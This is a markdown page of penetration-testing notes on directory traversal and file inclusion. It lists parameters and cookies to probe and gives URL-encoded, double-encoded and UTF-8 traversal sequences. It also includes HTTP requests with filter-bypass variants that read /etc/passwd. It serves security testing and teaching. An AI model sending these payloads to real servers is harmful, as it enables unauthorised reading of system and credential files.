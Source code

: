 # Authorization Testing
## Directory traversal File Include

### Techniques

1. Input Vector Enumeration 
* Are there request parameters which could be used for file-related operations?
* Are there unusual file extensions?
* Are there interesting variable names?
	+ **http://example.com/getUserProfile.jsp?item=ikki.html >>**
	  `item=ikki.html >> ikki >> inject`
	+ **http://example.com/index.php?file=content >>**
	  `file=content >> content >> inject`
	+ **http://example.com/main.cgi?home=index.htm >>**
	  `home=index.htm >> index >> inject`

* In Cookie
	+ Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower 
	`>> TEMPLATE=flower >> flower >> inject`

	+ Cookie: USER=1826cc8f:PSTYLE=GreenDotRed

		`>>PSTYLE=GreenDotRed >> GreenDotRed >> inject`


* Unix like OS: /
* Windows : <drive letter>: , /
* MAC OS : <drive letter>: , :
* URL encoding and double URL encoding :
```urlencode
%2e%2e%2f => ../
%2e%2e/ => ../
..%2f => ../
%2e%2e%5c => ..\
%2e%2e\ => ..\
..%5c => ..\
%252e%252e%255c => ..\
```
* Unicode/UTF-8 Encoding
```UTF
..%c0%af => ../
..%c1%9c => ..\
```
#### Example

 ```http
 GET /image?filename=../../../etc/passwd HTTP/1.1
 ```

 ![dir](./img/dir.png) 
 
 ```http
 GET /image?filename=....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd HTTP/1.1
 ```
![dir2](./img/dir2.png)

```http
GET /image?filename=%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd HTTP/1.1
```
![dir3](./img/dir3.png)

```http
GET /image?filename=/var/www/images/../../../../../etc/passwd HTTP/1.1
```
![dir4](./img/dir4.png)